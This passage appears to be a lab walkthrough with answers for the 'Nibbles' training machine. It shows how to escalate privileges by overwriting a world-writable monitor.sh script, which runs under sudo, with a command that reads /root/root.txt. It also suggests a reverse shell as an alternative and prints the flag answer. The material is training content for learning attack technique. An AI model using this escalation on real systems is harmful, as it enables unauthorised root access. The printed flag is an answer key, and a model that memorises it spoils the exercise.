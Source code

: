Therefore, students first need to unzip "personal.zip":

Code: shell

```shell
unzip personal.zip
```

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

Then, when checking the permissions on the "monitor.sh" script, students will notice that it is misconfigured, as it is world-writable:

Code: shell

```shell
ls -l personal/stuff/monitor.sh
```

```
nibbler@Nibbles:/home/nibbler$ ls -l personal/stuff/monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May8  2015 personal/stuff/monitor.sh
```

Thus, from here, students could either write a reverse-shell code inside "monitor.sh" and catch it on `Pwnbox`/`PMVPN`, or, they could write a command to concatenate/print the contents of the flag "root.txt" which is under the `/root/` directory. Either way, the script must be executed with sudo. Students will attain the flag `de5e5d6619862a8aa5b9b212314e0cdd`:

Code: shell

```shell
echo "cat /root/root.txt" > personal/stuff/monitor.sh
sudo ./personal/stuff/monitor.sh
```

```
nibbler@Nibbles:/home/nibbler$ echo "cat /root/root.txt" > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo ./personal/stuff/monitor.sh

de5e5d6619862a8aa5b9b212314e0cdd
```

Answer: `de5e5d6619862a8aa5b9b212314e0cdd`

# Knowledge Check

## Question 1
